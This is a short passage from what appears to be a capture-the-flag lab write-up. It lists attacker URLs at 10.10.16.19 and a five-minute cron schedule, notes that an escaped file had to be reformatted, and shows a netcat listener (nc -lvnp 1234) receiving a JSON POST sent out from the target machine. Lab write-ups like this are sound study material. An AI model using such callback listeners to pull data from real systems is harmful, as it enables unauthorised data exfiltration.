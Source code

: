 ```
http://10.10.16.19:1234
http://10.10.16.19
*5/ * * * *
```

The file comes out in extended format so we have to format it so we can access the webpage.

In visual studio I changed all of occurences of /n with an enter, /t with a tab, and every \/ with a /.

```console
─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.61.202] 55584
POST / HTTP/1.1
Host: 10.10.16.19:1234
Accept: */*
Content-type: application/json
Content-Length: 7673
Expect: 100-continue

```